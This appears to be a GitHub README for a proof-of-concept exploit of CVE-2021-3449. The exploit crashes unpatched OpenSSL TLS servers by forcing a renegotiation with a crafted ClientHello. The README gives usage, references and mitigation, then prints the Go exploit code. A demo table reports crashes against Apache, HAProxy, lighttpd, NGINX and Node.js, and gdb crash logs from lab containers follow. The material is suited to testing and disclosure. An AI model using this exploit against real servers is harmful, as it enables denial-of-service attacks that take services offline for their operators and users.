 # CVE-2021-3449 OpenSSL <1.1.1k DoS exploit

Usage: `go run . -host hostname:port`

This program implements a proof-of-concept exploit of CVE-2021-3449
affecting OpenSSL servers pre-1.1.1k if TLSv1.2 secure renegotiation is accepted.

It connects to a TLSv1.2 server and immediately initiates an RFC 5746 "secure renegotiation".
The attack involves a maliciously-crafted `ClientHello` that causes the server to crash
by causing a NULL pointer dereference (Denial-of-Service).

## References

- [OpenSSL security advisory](https://www.openssl.org/news/secadv/20210325.txt)
- [cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3449)
- [Ubuntu security notice](https://ubuntu.com/security/notices/USN-4891-1) (USN-4891-1)
- [Debian security tracker](https://security-tracker.debian.org/tracker/CVE-2021-3449)
- [Red Hat CVE entry](https://access.redhat.com/security/cve/CVE-2021-3449)

> This issue was reported to OpenSSL on 17th March 2021 by Nokia. The fix was
> developed by Peter Kästle and Samuel Sapalski from Nokia.

## Mitigation

The only known fix is to update `libssl1.1`.

Even though some applications use hardened TLS configurations by default that disable TLS renegotiation,
they are still affected by the bug if running an old OpenSSL version.

## Exploit

`main.go` is a tiny script that connects to a TLS server, forces a renegotiation, and disconnects.

The exploit code was injected into a bundled version of the Go 1.14.15 `encoding/tls` package.
You can find it in `handshake_client.go:115`. The logic is self-explanatory.

```go
// CVE-2021-3449 exploit code.
if hello.vers >= VersionTLS12 {
    if c.handshakes == 0 {
        println("sending initial ClientHello")
        hello.supportedSignatureAlgorithms = supportedSignatureAlgorithms
    } else {
        // OpenSSL pre-1.1.1k runs into a NULL-pointer dereference
        // if the supported_signature_algorithms extension is omitted,
        // but supported_signature_algorithms_cert is present.
        println("sending malicious ClientHello")
        hello.supportedSignatureAlgorithmsCert = supportedSignatureAlgorithms
    }
}
```

– [@terorie](https://github.com/terorie)

## Demo

The `demo/` directory holds configuration to patch various apps with a vulnerable version of OpenSSL.

Test setup:
- Download and compile the vulnerable OpenSSL 1.1.1j version locally
- Prepare an Ubuntu 20.04 target container and upload the OpenSSL libraries
- Install application onto target container
- Start server and execute attack

Requirements:
- OpenSSL (on the host)
- `build-essential` (Perl, GCC, Make)
- Docker

**Note: None of the listed web servers are vulnerable to CVE-2021-3449 with OpenSSL 1.1.1k or later.**

| Server                                       | Distro       | Version | Demo                 | Result        |
| -------------------------------------------- | ------------ | ------- | -------------------- | ------------- |
| [OpenSSL s_server](#openssl-simple-server)   | -            | 1.1.1j  | `make demo-openssl`  | Crash         |
| [Apache2](#apache2-httpd)                    | Ubuntu 18.04 | 2.4.29  | `make demo-apache2`  | Partial crash |
| [HAProxy](#haproxy)                          | Ubuntu 18.04 | 1.8.8   | `make demo-haproxy`  | Crash         |
| [HAProxy](#haproxy)                          | Ubuntu 20.04 | 2.0.13  | `make demo-haproxy`  | No effect     |
| [lighttpd](#lighttpd)                        | Ubuntu 18.04 | 1.4.55  | `make demo-lighttpd` | Crash         |
| [lighttpd](#lighttpd)                        | Ubuntu 20.04 | 1.4.55  | `make demo-lighttpd` | Crash         |
| [lighttpd](#lighttpd)                        | Ubuntu 21.04 | 1.4.59  | `make demo-lighttpd` | No effect with config option |
| [NGINX](#nginx)                              | Ubuntu 18.04 | 1.14.0  | `make demo-nginx`    | Partial crash |
| [NGINX](#nginx)                              | Ubuntu 20.04 | 1.18.0  | `make demo-nginx`    | No effect     |
| Node.js <=12                                 | Ubuntu 18.04 |         |                      | No effect     |
| [Node.js >12](#nodejs)                       | Ubuntu 18.04 | ?       | `make demo-nodejs`   | Crash         |
| [Node.js >12](#nodejs)                       | Ubuntu 18.04 | 15.14.0 | `make demo-nodejs`   | No effect     |

To clean up all demo resources, run `make clean`.

### OpenSSL simple server

The `openssl s_server` is a minimal TLS server implementation.

* `make demo-openssl`: Full run (port 4433)
* `make -C demo build-openssl`: Build target Docker image
* `make -C demo start-openssl`: Start target at port 4433
* `make -C demo stop-openssl`: Stop target

Result: Full server crash.

**Logs**

```
docker run -d -it --name cve-2021-3449-openssl --network host local/cve-2021-3449/openssl
a16c44f98a37b7e0c0777d3bd66456203de129fd23566d2141ef2bec9777be17
docker logs -f cve-2021-3449-openssl &
sleep 2
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Using default temp DH parameters
ACCEPT
sending initial ClientHello
connected
sending malicious ClientHello

[[truncated]]

Program received signal SIGSEGV, Segmentation fault.
0x00007f668bd89283 in tls12_shared_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#0  0x00007f668bd89283 in tls12_shared_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#1  0x00007f668bd893cd in tls1_set_shared_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#2  0x00007f668bd89fe3 in tls1_process_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#3  0x00007f668bd8a110 in tls1_set_server_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#4  0x00007f668bd824a2 in tls_early_post_process_client_hello () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#5  0x00007f668bd84d55 in tls_post_process_client_hello () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#6  0x00007f668bd8522f in ossl_statem_server_post_process_message () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#7  0x00007f668bd710e1 in read_state_machine () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#8  0x00007f668bd7199d in state_machine () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#9  0x00007f668bd71c4e in ossl_statem_accept () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#10 0x00007f668bd493ab in ssl3_read_bytes () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#11 0x00007f668bd504ec in ssl3_read_internal () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#12 0x00007f668bd50595 in ssl3_read () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#13 0x00007f668bd5ae5c in ssl_read_internal () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#14 0x00007f668bd5af5b in SSL_read () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#15 0x000055aa5a10f209 in sv_body ()
#16 0x000055aa5a1302ec in do_server ()
#17 0x000055aa5a114815 in s_server_main ()
#18 0x000055aa5a0f9395 in do_cmd ()
#19 0x000055aa5a0f9ee1 in main ()
malicious handshake failed, exploit might have worked
```

### Apache2 httpd

Apache2 `httpd` web server with default configuration is vulnerable.

* `make demo-apache`: Full run (port 443)
* `make -C demo build-apache`: Build target Docker image
* `make -C demo start-apache`: Start target at port 443
* `make -C demo stop-apache`: Stop target

Thank you to [@binarytrails](https://github.com/binarytrails) for the contribution.

Result: Partial disruption, main process still alive but worker process crashed.

**Logs**

```
docker run -d -it --name cve-2021-3449-apache2 --network host local/cve-2021-3449/apache2
0bf38dd8ab721f0ae3713448d2a28050b6e7d11fa7e3174b6ec9b1bbcfa124c8
docker logs -f cve-2021-3449-apache2 &

[[truncated]]

sending initial ClientHello
connected
sending malicious ClientHello
[Sat Mar 27 02:54:38.153327 2021] [ssl:info] [pid 21:tid 140433175750400] [client 127.0.0.1:46846] AH01964: Connection to child 64 established (server localhost:443)
[Sat Mar 27 02:54:38.153619 2021] [ssl:debug] [pid 21:tid 140433175750400] ssl_engine_kernel.c(2317): [client 127.0.0.1:46846] AH02043: SSL virtual host for servername localhost found
[Sat Mar 27 02:54:38.155697 2021] [ssl:debug] [pid 21:tid 140433175750400] ssl_engine_kernel.c(2233): [client 127.0.0.1:46846] AH02041: Protocol: TLSv1.2, Cipher: ECDHE-RSA-CHACHA20-POLY1305 (256/256 bits)
[Sat Mar 27 02:54:38.155781 2021] [ssl:error] [pid 21:tid 140433175750400] [client 127.0.0.1:46846] AH02042: rejecting client initiated renegotiation
[Sat Mar 27 02:54:38.155837 2021] [ssl:debug] [pid 21:tid 140433175750400] ssl_engine_kernel.c(2317): [client 127.0.0.1:46846] AH02043: SSL virtual host for servername localhost found
malicious handshake failed, exploit might have worked: EOF
[Sat Mar 27 02:54:39.183129 2021] [core:notice] [pid 19:tid 140433267538880] AH00051: child pid 21 exit signal Segmentation fault (11), possible coredump in /etc/apache2
```

